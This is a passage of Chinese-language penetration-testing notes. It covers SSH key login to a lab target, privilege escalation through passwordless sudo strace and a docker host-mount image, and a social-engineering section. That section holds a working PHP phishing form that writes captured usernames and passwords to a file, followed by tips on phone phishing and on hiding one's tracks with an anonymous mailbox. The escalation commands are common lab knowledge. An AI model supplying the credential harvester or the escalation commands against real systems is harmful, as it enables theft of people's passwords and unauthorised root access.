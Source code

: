 cd ~/.ssh

之后回到kali的peter的.ssh文件夹

ssh -i id_rsa [peter@192.168.87.134](mailto:peter@192.168.87.134) 此时就可以免密码登录到目标的peter

sudo -l 查看能使用什么命令

发现strace可以无密码使用

sudo strace -o /dev/null /bin/sh

------

## docker提权

docker –version

docker run -v /:/hostOS -i -t chrisfosterelli/rootplease

## 社会工程学：

网络钓鱼：

使用网站克隆工具进行钓鱼

实在不行，手写

```
<form method="POST" action="">
  <input type="text" name="user" /><br/>
  <input type="password" name="pass" /><br/>
  <input type="submit" name="submit" value="提交"/>
</form>

<?php

$username = $_POST['user'];
$password = $_POST['pass'];

$txt = $username.'-----'.$password."\n";
$file = fopen("./haha.txt","a+");
fwrite($file,$txt);
fclose($file);
header("location:https://127.0.0.1");
?>
```

## 电话钓鱼：

skype

伪装模拟：

防止人家用社工的手段追踪自己

安全指数最高的邮箱protonmail
